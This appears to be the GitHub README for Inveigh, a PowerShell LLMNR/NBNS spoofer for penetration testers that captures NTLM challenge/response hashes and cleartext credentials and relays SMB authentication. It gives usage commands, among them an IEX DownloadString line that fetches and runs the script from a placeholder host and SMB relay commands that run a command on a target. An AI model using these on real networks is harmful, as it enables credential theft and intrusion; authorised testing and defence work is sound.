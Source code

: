 # Inveigh
Inveigh is a Windows PowerShell LLMNR/NBNS spoofer designed to assist penetration testers that find themselves limited to a Windows system. This can commonly occur while performing standard post exploitation, phishing attacks, USB drive attacks, VLAN pivoting, or simply being restricted to a Windows system as part of client imposed restrictions.

# Requirements
Tested minimums are PowerShell 2.0 and .NET 3.5

# Notes
1. Currently supports IPv4 LLMNR/NBNS spoofing and HTTP/HTTPS/SMB NTLMv1/NTLMv2 challenge/response capture.
2. LLMNR/NBNS spoofing is performed through sniffing and sending with raw sockets. 
3. SMB challenge/response captures are performed by sniffing over the host system's SMB service.
4. HTTP challenge/response captures are performed with a dedicated listener.
5. The local LLMNR/NBNS services do not need to be disabled on the host system. 
6. LLMNR/NBNS spoofer will point victims to host system's SMB service, keep account lockout scenarios in mind.
7. Kerberos should downgrade for SMB authentication due to spoofed hostnames not being valid in DNS.
8. Ensure that the LMMNR,NBNS,SMB,HTTP ports are open within any local firewall on the host system.
9. If you copy/paste challenge/response captures from output window for password cracking, remove carriage returns.

# Usage
Obtain an elevated administrator or SYSTEM shell and use a method to load the module

To import with Import-Module:   
Import-Module ./Inveigh.psd1  

To import using dot source method:  
. ./Inveigh.ps1  
. ./Inveigh-Relay.ps1  

To load into memory using Invoke-Expression:  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh-Relay.ps1")  

To execute with default settings:  
Invoke-Inveigh

To load and execute with one line:    
Import-Module ./Inveigh.ps1;Invoke-Inveigh

To execute with features enabled/disabled:   
Invoke-Inveigh -IP 'local IP' -SpooferIP 'local or remote IP' -LLMNR Y/N -NBNS Y/N -NBNSTypes 00,03,20,1B -HTTP Y/N -HTTPS Y/N -SMB Y/N -Repeat Y/N -ConsoleOutput Y/N -FileOutput Y/N -OutputDir 'valid folder path'

To execute with SMB relay enabled through Invoke-Inveigh:   
Invoke-Inveigh -SMBRelay Y -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"

To execute with SMB relay with only Invoke-InveighRelay:  
Invoke-InveighRelay -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"  

Use 'Get-Help -parameter * Invoke-Inveigh' for a full list of parameters

# Functions
Invoke-Inveigh - Start Inveigh with or without parameters  
Invoke-InveighRelay - SMB relay function  
Get-Inveigh - Get queued console output  
Get-InveighCleartext - Get all captured cleartext credentials  
Get-InveighLog - Get log entries  
Get-InveighNTLM - Get all captured challenge/response hashes  
Get-InveighNTLMv1 - Get captured NTLMv1 challenge/response hashes  
Get-InveighNTLMv2 - Get captured NTLMv2 challenge/response hashes  
Get-InveighStats - Get captured challenge/response counts  
Watch-Inveigh - Enable real time console output  
Clear-Inveigh - Clear Inveigh data from memory  
Stop-Inveigh - Stop all running Inveigh functions  

# Included In
PowerShell Empire - https://github.com/PowerShellEmpire/Empire  
PS>Attack - https://github.com/jaredhaight/psattack  
p0wnedShell - https://github.com/Cn33liz/p0wnedShell   

# Special Thanks  
Anyone that posted .net packet sniffing examples.  
Responder - https://github.com/SpiderLabs/Responder  
Impacket - https://github.com/CoreSecurity/impacket  

# Screenshots
Invoke-Inveigh execution with real time console and file output enabled
![inveighv1](https://cloud.githubusercontent.com/assets/5897462/12239354/4bb8a01a-b856-11e5-8a1e-5c0ebbb1ff35.PNG)

Retrieval of captured NTLM2 challenge/response hashes with Get-InveighNTLMv2
![inveigh2](https://cloud.githubusercontent.com/assets/5897462/10326313/abde41d8-6c67-11e5-91b8-0c55271ba326.png)

HTTP to SMB Relay
![inveigh3](https://cloud.githubusercontent.com/assets/5897462/10326314/b2de540a-6c67-11e5-8627-fe5d27018dc3.png)

Module import and execution through one of Ben Turner and Dave Hardy's Metasploit Interactive PowerShell Session payloads
![inveigh5](https://cloud.githubusercontent.com/assets/5897462/10354363/53e73784-6d2d-11e5-8509-9bb7f3feab88.png)
